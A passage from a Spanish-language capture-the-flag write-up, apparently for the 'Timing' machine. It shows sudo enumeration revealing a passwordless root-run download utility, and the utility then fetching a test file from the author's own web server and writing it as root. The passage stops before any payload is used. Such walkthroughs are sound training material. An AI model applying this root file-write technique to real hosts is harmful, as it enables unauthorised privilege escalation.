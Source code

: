 ## Escalada de Privilegios

Comprobemos los permisos a nivel de sudo para el usuario **`aaron`**:

```console
aaron@timing:~$ sudo -l
Matching Defaults entries for aaron on timing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User aaron may run the following commands on timing:
    (ALL) NOPASSWD: /usr/bin/netutils
```	

Vemos que tenemos permisos de ejecución sobre un script, miremos a ver qué contiene:

```console
aaron@timing:~$ cat /usr/bin/netutils
#! /bin/bash
java -jar /root/netutils.jar
```

Lo ejecutamos para ver qué nos permite hacer este recurso:

```console
aaron@timing:~$ sudo /usr/bin/netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 1
Enter Url: 
```

Nos pide una URL así que vamos a levantar un servidor web con python en nuestra máquina, pero primero creamos un archivo **`test.txt`** y luego pasaremos la url de nuestro archivo al binario **`netutils`**

```console
p3ntest1ng:~$ echo "this is a test" > test.txt
p3ntest1ng:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```console
...[snip]...
Enter Url: http://10.10.16.40/test.txt
Initializing download: http://10.10.16.40/test.txt
File size: 15 bytes
Opening output file test.txt
Server unsupported, starting from scratch with one connection.
Starting download


Downloaded 15 byte in 0 seconds. (0.04 KB/s)

netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 2
aaron@timing:~$ ls -la
...[snip]...
-rw-r--r-- 1 root  root    15 May 23 00:29 test.txt
-rw-r----- 1 root  aaron   33 May 22 21:01 user.txt
```
